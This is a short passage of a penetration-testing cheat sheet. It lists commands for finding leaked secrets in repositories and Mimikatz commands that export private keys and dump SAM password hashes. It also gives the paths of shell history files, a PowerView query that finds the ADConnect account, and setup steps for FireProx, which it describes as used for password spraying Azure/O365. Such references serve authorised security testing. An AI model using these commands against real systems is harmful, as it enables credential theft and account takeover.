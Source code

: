 Use GitLeaks to search for secrets

```bash
sudo docker run --rm --name=gitleaks zricethezav/gitleaks -v -r <repo URL>
```

TruffleHog - https://github.com/dxa4481/truffleHog

Shhgit - https://github.com/eth0izzle/shhgit

Gitrob - https://github.com/michenriksen/gitrob

### Mimikatz

Export Non-Exportable Private Keys From Web Server

```textile
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

Dump passwords hashes from SAM/SYSTEM files

```textile
mimikatz# lsadump::sam /system:SYSTEM /sam:SAM
```

### Check Command History

Linux Bash History Location

```bash
~/.bash_history
```

Windows PowerShell PSReadLine Location

```bash
%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### PowerView

https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
Find on-prem ADConnect account name and server

```powershell
Get-NetUser -Filter "(samAccountName=MSOL_*)" |Select-Object name,description | fl
```

### FireProx

Password Spraying Azure/O365 while randomizing IPs with FireProx

Install

```bash
git clone https://github.com/ustayready/fireprox
cd fireprox
virtualenv -p python3 .
source bin/activate
pip install -r requirements.txt
python fire.py
```
